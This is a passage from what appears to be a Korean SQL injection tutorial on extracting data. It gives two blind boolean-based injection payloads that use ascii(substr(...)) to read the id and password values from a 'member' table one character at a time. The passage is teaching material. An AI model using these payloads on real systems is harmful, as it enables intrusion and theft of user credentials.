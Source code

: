 

#### <span style="background:#A9A9A9; color:#ffffff">1.2.2.7 data 추출하기</span>

***

<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select id from member limit 0,1</span>),1,1)>0) and '1'='1

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select pass from member limit 0,1</span>),1,1)>0) and '1'='1

<br>

<img src="/images/2024-06-01-SQLinjection16/image-20240601135825807.png" alt="image-20240601135825807" style="zoom:67%;" />

ascii에서 d 가 100인데, 여기서 첫 글자는 d 입니다.   이렇게 id 와 password를 구하다 보면 

error based sqli 과 마찬가지로 데이터 결과는 같습니다. 